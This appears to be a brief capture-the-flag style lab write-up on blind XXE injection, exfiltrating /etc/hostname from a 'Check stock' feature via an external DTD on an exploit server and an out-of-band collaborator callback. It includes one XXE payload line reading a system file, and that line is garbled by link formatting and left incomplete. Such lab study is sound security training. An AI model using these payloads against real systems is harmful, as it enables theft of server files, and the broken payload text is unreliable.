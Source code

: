 This lab has a "Check stock" feature that parses XML input but does not display the result. To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

  
1\. Notice that the check stock feature sends and XML in the request.

![06ab3cd9f7b10fa7077dd1d4c8f6e8bd.png](../_resources/06ab3cd9f7b10fa7077dd1d4c8f6e8bd.png)  
<br/>2\. We are going to create an external TDT for this XML in the exploit server, using the payload:   
<br/>`<!ENTITY % file SYSTEM "[file:///etc/hostname"&gt;](# "file:///etc/hostname%22&gt;") <!ENTITY % eval " %eval; %exfil;`  
<br/>Click on view exploit and take note of the url  
<br/>![2393f866ec95f24d8ab869605dcad6e3.png](../_resources/2393f866ec95f24d8ab869605dcad6e3.png)  
<br/><br/>3\. Now go to check stock feature again, intercept the request, and change the payload to:  
<br/>![c97fe3cfa3029ee76badbb30eb8fcc80.png](../_resources/c97fe3cfa3029ee76badbb30eb8fcc80.png)  
<br/>You will receive and interaction in the collaborator and copy the code, that's the solution.  
<br/>![d45cb3620aaf76e37a6647fc9c3ceb5b.png](../_resources/d45cb3620aaf76e37a6647fc9c3ceb5b.png)